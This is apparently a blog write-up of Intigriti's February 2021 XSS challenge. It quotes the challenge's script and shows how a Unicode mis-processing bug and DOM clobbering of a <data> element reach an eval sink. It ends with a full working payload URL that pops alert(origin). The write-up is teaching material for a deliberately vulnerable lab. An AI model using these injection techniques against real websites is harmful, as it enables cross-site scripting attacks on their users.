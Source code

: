```yaml
---
weight: 4
title: "Intigriti's February XSS Challenge Writeup"
date: 2021-02-22T00:00:00+04:00
lastmod: 2021-02-22T00:00:00+04:00
draft: false
author: "Davwwwx"
authorLink: "/about"
description: ""
resources:
- name: "featured-image"
  src: "featured-image.png"

tags: ["challenge", "xss", "intigriti", "unicode", "eval", "DOM clobbering"]
categories: ["Challenges"]

lightgallery: true
toc:
  enable: true
---
```


This month’s challenge, made by [Holme](https://twitter.com/holme_sec), was a little bit different than the ones I have previously solved as it had a server-side processing issue.
<!--more-->

Vulnerable page - [https://challenge-0221.intigriti.io/](https://challenge-0221.intigriti.io/)\
Vulnerable script - [https://challenge-0221.intigriti.io/script.js](https://challenge-0221.intigriti.io/script.js)


### Issue 1 - Unicode characters improper processing

Digging into the [embedded script](https://challenge-0221.intigriti.io/script.js) (see the code below) we can see there is no direct source that could reach the only dangerous sink (`eval`) at line **57**:

```javascript
function startGrade() {
  var text = document.getElementById("assignmentText").value;
  checkLength(text);
  result = window.result || {
    message: "Your submission is too short.",
    error: 1,
  }; //If the result object hasn't been defined yet, the submission must be too short
  if (result.error) {
    endGrade();
  } else {
    getQAnswer();
    if (!passQuiz()) {
      result.message = "We don't allow robots at the Unicodeversity (yet)!";
      result.error = 1;
    } else {
      result.grade = "ABCDEF"[Math.floor(Math.random() * 6)]; //Don't tell the students we don't actually read their submissions
    }
    endGrade();
  }
}

function endGrade() {
  document.getElementById("message").innerText = result.message;
  if (result.grade) {
    document.getElementById(
      "grade"
    ).innerText = `You got a(n) ${result.grade}!`;
  }
  document.getElementById("share").style.visibility = "initial";
  document.getElementById(
    "share-link"
  ).href = `https://challenge-0221.intigriti.io/?assignmentTitle=${
    document.getElementById("assignmentTitle").value
  }&assignmentText=${document.getElementById("assignmentText").value}`;
  delete result;
}

function checkLength(text) {
  if (text.length > 50) {
    result = { message: "Thanks for your submission!" };
  }
}

function getQAnswer() {
  var answer = document.getElementById("answer").value;
  if (/^[0-9]+$/.test(answer)) {
    if (typeof result !== "undefined") {
      result.questionAnswer = { value: answer };
    } else {
      result = { questionAnswer: { value: answer } };
    }
  }
}

function passQuiz() {
  if (typeof result.questionAnswer !== "undefined") {
    return eval(result.questionAnswer.value + " == " + question);
  }
  return false;
}

var question = `${Math.floor(Math.random() * 10) + 1} + ${
  Math.floor(Math.random() * 10) + 1
}`;

document.getElementById("question").innerText = `${question} = ?`;

document.getElementById("submit").addEventListener("click", startGrade);

const urlParams = new URLSearchParams(location.search);
if (urlParams.has("autosubmit")) {
  startGrade();
}
```

It is a common behavior for web apps to reflect an input's name or id if provided via request body or query string, so does this app (escaping, unfortunately).
![Escaped reflected parameter](escapedrefparam.png "Escaped reflected parameter")

But if we try a Unicode sequence (`բարև`), we can see it doesn't get processed normally.
![Unicode reflected parameter](unicoderefparam.png "Unicode reflected parameter")

The first part of a Unicode character byte pair gets rendered and the second pair is getting reflected as is,
for example, in the case of letter `բ` (**U+0562**), **05** gets rendered and **62** is being returned.

### Issue 2 - DOM clobbering as a source to the dangerous sink

Now we can escape the reflection point with a doublequote using some character like `∀` (**U+2200**), but we cannot use event handlers because of **CSP** nor can construct an inline `script` element as we cannot guess a server-generated nonce value.
```CSP
script-src 'strict-dynamic' 'nonce-iR/JMMPv7suDLRND7rsPGvDzJxU=' 'unsafe-eval' http: https:;object-src 'none';base-uri 'none';
```

As said above, looking for DOM vulnerabilities, the only usable sink is `eval` (at line **56**  in the original script) in `passQuiz` function.
```Javascript
function passQuiz() {
  if (typeof result.questionAnswer !== "undefined") {
    return eval(result.questionAnswer.value + " == " + question);
  }
  return false;
}
```

And to reach it we should be able to control either `result.questionAnswer.value` or `question` variable.\
No source reaches `question`, but in line **4** we can see that result can be taken from the `window` object.
```Javascript
function startGrade() {
  var text = document.getElementById("assignmentText").value;
  checkLength(text);
  result = window.result || {
    message: "Your submission is too short.",
    error: 1,
```

So to set its value we should abuse [DOM clobbering](https://portswigger.net/web-security/dom-based/dom-clobbering). And the rendered payload should look something like this
```html
<elem id="result">
<elem id="result" name="questionAnswer" value="alert(origin)//">
```

Looking through [MDN documentation](https://developer.mozilla.org/en-US/docs/Web/HTML/Attributes), the only usable element that has `value` attribute is `<data>` as only its first two letters (**da**) can be embedded as a hexadecimal value to start a tag normally instead of a gibberish.

Finally we can construct our payload `?assignmentTitle=∀㸀㳚ta%20id=result㸀㳚ta%20id=result%20name=questionAnswer%20value=alert(origin)//&autosubmit`

- `∀` (**U+2200**) to render a doublequote (**"**),
- `㸀` (**U+3E00**) to render a greater than sign (**>**),
- `㳚` (**U+3CDA**) to render a less than sign (**<**) and reflect **DA** characters to start the `<data>` tag,
- and `autosubmit` query parameter to execute `startGrade` function without user interaction (line **71**).

Which should result in something like this being injected into the page
```html
"00>00<data id=result>00<data id=result name=questionAnswer value=alert(origin)//
```

![Pop the alert](alert.png "Pop the alert")

The final URL - [https://challenge-0221.intigriti.io/?assignmentTitle=∀㸀㳚ta%20id=result㸀㳚ta%20id=result%20name=questionAnswer%20value=alert(origin)//&autosubmit](https://challenge-0221.intigriti.io/?assignmentTitle=∀㸀㳚ta%20id=result㸀㳚ta%20id=result%20name=questionAnswer%20value=alert(origin)//&autosubmit)
